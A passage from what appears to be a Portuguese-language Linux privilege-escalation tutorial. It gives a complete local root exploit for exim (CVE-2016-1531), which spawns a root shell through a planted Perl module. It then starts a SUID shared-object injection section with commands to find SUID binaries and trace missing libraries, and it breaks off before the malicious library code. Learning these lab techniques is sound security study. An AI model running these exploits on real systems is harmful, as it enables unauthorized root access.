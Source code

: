 A título de exemplo, o programa /usr/sbin/exim-4.84-3 aparece nos resultado... Efetuar pesquisa no https://www.exploit-db.com/, ou simplesmente google, ou github.

-   Criar um ficheiro e copiar o código da pesquisa, neste caso:

```bash
touch exploit.sh
nano exploit.sh
```

```bash
#!/bin/sh

echo [ CVE-2016-1531 local root exploit
cat > /tmp/root.pm << EOF
package root;
use strict;
use warnings;

system("/bin/sh");
EOF
PERL5LIB=/tmp PERL5OPT=-Mroot /usr/exim/bin/exim -ps
```

-   Grave o ficheiro (Ctrl+o), tornar o mesmo num executável e executar

```bash
chmod +x exploit.sh
./exploit.sh
```

---

### 6.2. SUID / SGID Executables - Shared Object Injection

-   Encontre todas as aplicações SUID/SGID executáveis

```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

Existem programas que usam objectos partilhados. Neste exemplo, assumimos que encontramos um /usr/local/bin/suid-so.

-   O comando strace permite rastrear os objectos partilhados de um programa. Adicionamos uns filtros

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Neste caso, assumimos que, num directory que tenhamos acesso (/home/user/),o ficheiro /home/user/.config/libcalc.so não se encontra

-   Criar directory e o ficheiro em falta

```bash
mkdir /home/user/.config
cd /home/user/.config
touch libcalc.c
nano libcalc.c
```
